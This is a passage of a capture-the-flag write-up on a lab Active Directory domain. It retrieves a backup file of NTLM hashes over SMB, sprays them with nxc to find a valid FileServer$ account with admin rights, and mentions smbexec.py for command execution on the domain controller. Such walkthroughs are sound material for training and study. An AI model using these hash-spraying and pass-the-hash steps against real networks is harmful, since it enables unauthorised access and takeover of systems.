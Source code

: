 Checking the share, we find a single text file named `backup_extract.txt` inside:

```console
$ smbclient.py 'SOUPEDECODE.LOCAL/file_svc:Pa[REDACTED]!!@dc01.soupedecode.local'

# use backup
# ls
drw-rw-rw-          0  Mon Jun 17 17:41:17 2024 .
drw-rw-rw-          0  Fri Jul 25 17:51:20 2025 ..
-rw-rw-rw-        892  Mon Jun 17 17:41:23 2024 backup_extract.txt
# get backup_extract.txt
```

The file contains a list of account names and their corresponding **NTLM hashes**.

```console
$ cat backup_extract.txt
WebServer$:2119:aad3b435b51404eeaad3b435b51404ee:c47b45f5d4df5a494bd19f13e14f7902:::
DatabaseServer$:2120:aad3b435b51404eeaad3b435b51404ee:406b424c7b483a42458bf6f545c936f7:::
CitrixServer$:2122:aad3b435b51404eeaad3b435b51404ee:48fc7eca9af236d7849273990f6c5117:::
FileServer$:2065:aad3b435b51404eeaad3b435b51404ee:e41d[REDACTED]5559:::
MailServer$:2124:aad3b435b51404eeaad3b435b51404ee:46a4655f18def136b3bfab7b0b4e70e3:::
BackupServer$:2125:aad3b435b51404eeaad3b435b51404ee:46a4655f18def136b3bfab7b0b4e70e3:::
ApplicationServer$:2126:aad3b435b51404eeaad3b435b51404ee:8cd90ac6cba6dde9d8038b068c17e9f5:::
PrintServer$:2127:aad3b435b51404eeaad3b435b51404ee:b8a38c432ac59ed00b2a373f4f050d28:::
ProxyServer$:2128:aad3b435b51404eeaad3b435b51404ee:4e3f0bb3e5b6e3e662611b1a87988881:::
MonitoringServer$:2129:aad3b435b51404eeaad3b435b51404ee:48fc7eca9af236d7849273990f6c5117:::
```

### Hash Spraying

We parse the file to create separate lists for **usernames** and **NTLM hashes**.

```console
$ cat backup_extract.txt | cut -d ':' -f 1 > backup_extract_users.txt
$ cat backup_extract.txt | cut -d ':' -f 4 > backup_extract_hashes.txt
```

Now, spraying the hashes using `nxc` with the list of usernames and their corresponding hashes, we discover that the hash for the `FileServer$` account is valid and grants us access.

```console
$ nxc smb dc01.soupedecode.local -u backup_extract_users.txt -H backup_extract_hashes.txt --no-bruteforce --continue-on-success
SMB         10.10.67.33     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
...
SMB         10.10.67.33     445    DC01             [+] SOUPEDECODE.LOCAL\FileServer$:e41d[REDACTED]5559 (Pwn3d!)
...
```

### Administrator Access

Also, the `(Pwn3d!)` tag in the `nxc` output indicates that the `FileServer$` account has administrative privileges on the target, allowing us to use an `impacket` script like `smbexec.py` to execute commands on the **DC** and read the root flag at `C:\Users\Administrator\Desktop\root.txt` to complete the room.
